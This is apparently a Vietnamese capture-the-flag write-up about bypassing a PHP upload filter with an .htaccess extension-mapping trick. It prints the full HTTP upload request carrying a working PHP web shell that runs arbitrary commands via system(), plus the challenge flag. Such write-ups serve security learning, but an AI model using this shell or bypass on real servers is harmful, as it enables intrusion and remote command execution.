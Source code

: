 Ở challenges này lúc đầu mình upload shell thì không chạy, chắc vì nó chặn tất cả các file liên quan tới php

Sau khi research thì mình biết được kĩ thuật upload file + htaccess

![Alt text](image.png)

.l33t từ giờ sẽ được hiểu như .php nên trình duyệt sẽ thực thi shell.l33t->shell.php

payload:
```
POST /upload.php HTTP/1.1
Host: 13.212.226.251:32522
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------14617569713886525883395149675
Content-Length: 543
Origin: http://13.212.226.251:32522
DNT: 1
Connection: close
Referer: http://13.212.226.251:32522/
Upgrade-Insecure-Requests: 1

-----------------------------14617569713886525883395149675
Content-Disposition: form-data; name="file"; filename="shell.l33t"
Content-Type: application/x-php

<<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
-----------------------------14617569713886525883395149675--
```
flag: CHH{hTaccess_1s_1NtEre$TiNG_ed98b764ce4ed4623bfe8f982057e8f8}